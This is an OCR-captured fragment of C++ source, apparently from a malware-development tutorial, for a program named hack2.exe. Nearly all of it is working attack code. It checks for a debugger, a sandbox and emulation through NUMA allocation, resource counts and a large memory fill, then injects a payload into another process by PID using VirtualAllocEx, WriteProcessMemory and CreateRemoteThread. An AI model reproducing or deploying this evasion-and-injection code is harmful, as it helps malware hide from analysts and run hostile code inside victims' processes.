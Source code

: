 ```cpp

  DWORD pid; // process ID
  pid = atoi(argv[1]);

  // what is my name???
  if (strstr(argv[0], "hack2.exe") == NULL) {
    printf("What's my name? WTF?? :(\n");
    return -2;
  }

  // "ask" the OS if any debugger is present
  if (IsDebuggerPresent()) {
    printf("attached debugger detected :(\n");
    return -2;
  }

  // check NUMA
  if (checkNUMA()) {
    printf("NUMA memory allocate failed :( \n");
    return -2;
  }

  // check resources
  if (checkResources() == false) {
    printf("possibly launched in sandbox :(\n");
    return -2;
  }

  // allocate and fill 100 MB of memory
  char *mem = NULL;
  mem = (char *) malloc(100000000);

  if (mem != NULL) {
    memset(mem, 00, 100000000);
    free(mem);

    // parse process ID
    ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 
    DWORD(pid));
    printf("PID: %i", pid);

    // allocate memory buffer for remote process
    rb = VirtualAllocEx(ph, NULL, sizeof(my_payload), 
    (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

    // "copy" data between processes
    WriteProcessMemory(ph, rb, my_payload, 
    sizeof(my_payload), NULL);

    // our process start new thread
    rt = CreateRemoteThread(ph, NULL, 0, 
    (LPTHREAD_START_ROUTINE)rb, 
    NULL, 0, NULL);
    CloseHandle(ph);
    return 0;
  }
}
```
